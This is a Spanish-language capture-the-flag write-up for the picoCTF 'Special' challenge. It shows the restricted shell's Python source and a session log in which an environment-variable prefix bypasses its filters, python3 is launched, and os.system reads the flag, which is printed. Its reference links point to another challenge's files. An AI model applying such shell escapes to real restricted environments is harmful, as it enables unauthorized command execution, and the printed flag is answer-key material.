 ## **Descripción**
Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)Start your instance to see connection details.
Additional details will be available after launching your challenge instance.

## Hints
1.- Experiment with different shell syntax
## **Solución** 
Para este reto haremos lo siguiente:
- Primero nos conectamos a un servidor con ssh.
- Al paracer cuando ingresamos se ejecuta un codigo el cual cambia la interfaz.
- Si ingresamos un enter sin nada, podremos ver donde se encuentra este archivo.
- De este manera hacemos uso del siguiente comando Placeholder=abc /usr/bin/python3
	- `laceholder=abc` asigna el valor `abc` a una variable de entorno llamada `Placeholder`, 
	- `/usr/bin/python3` se utiliza para invocar el intérprete de Python 3, que es una ruta común en sistemas Linux. Al escribir este comando, lo que ocurre es que se abre una sesión interactiva de Python 3. Es como si ejecutarámos `python3` directamente desde la terminal, lo que nos lleva a un prompt de Python donde podemos ejecutar código Python
- Una vez en la sesion de python hacemos uso de os.system("ls"), este nos listara los archivos del directorio.
- Con este nos damos cuenta de que hay un directorio llamado blargh, hacemos un os.system("ls blargh") para listar el contenido de este y al parecer ahi esta un txt con la bandera.
- Por ultimo hacemos un os.system("cat blargh/flag.txt") para leer la bandera. 
 

```
Special$ Placeholder=abc cat /usr/local/Special.py
Placeholder=abc cat /usr/local/Special.py 
#!/usr/bin/python3

import os
from spellchecker import SpellChecker
spell = SpellChecker()

while True:
  cmd = input("Special$ ")
  rval = 0
  
  if cmd == 'exit':
    break
  elif 'sh' in cmd:
    print('Why go back to an inferior shell?')
    continue
  elif cmd[0] == '/':
    print('Absolutely not paths like that, please!')
    continue
    
  # Spellcheck
  spellcheck_cmd = ''
  for word in cmd.split():
    fixed_word = spell.correction(word)
    if fixed_word is None:
      fixed_word = word
    spellcheck_cmd += fixed_word + ' '

  # Capitalize
  fixed_cmd = list(spellcheck_cmd)
  words = spellcheck_cmd.split()
  first_word = words[0]
  first_letter = first_word[0]
  if ord(first_letter) >= 97 and ord(first_letter) <= 122:
    fixed_cmd[0] = chr(ord(spellcheck_cmd[0]) - 0x20)
  fixed_cmd = ''.join(fixed_cmd)
  
  try:
    print(fixed_cmd)
    os.system(fixed_cmd)
  except:
    print("Bad command!")

Special$ placeholder=abc /usr/bin/python3

Placeholder=abc /usr/bin/python3 
Python 3.8.10 (default, Nov 14 2022, 12:59:47) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 
>>> import os
>>> os.system("ls")
blargh
0
>>> os.system("cat blargh")
cat: blargh: Is a directory
256
>>> os.system("cd blargh")
0
>>> os.system("ls blargh")
flag.txt
0
>>> os.system("cat flag.txt")
cat: flag.txt: No such file or directory
256
>>> os.system("cat /blargh/flag.txt")
cat: /blargh/flag.txt: No such file or directory
256
>>> os.system("cat blargh/flag.txt")


				picoCTF{5p311ch3ck_15_7h3_w0r57_3befb794}0


```

## **Notas adicionales**
El módulo `os` proporciona una manera de interactuar con el sistema operativo. Permite ejecutar comandos del sistema, manipular archivos y directorios, obtener información del sistema y muchas otras tareas relacionadas con el sistema operati

## **Referencias**
- [Download code.py](https://artifacts.picoctf.net/c/1/code.py)
- [Download codebook.txt](https://artifacts.picoctf.net/c/1/codebook.txt)
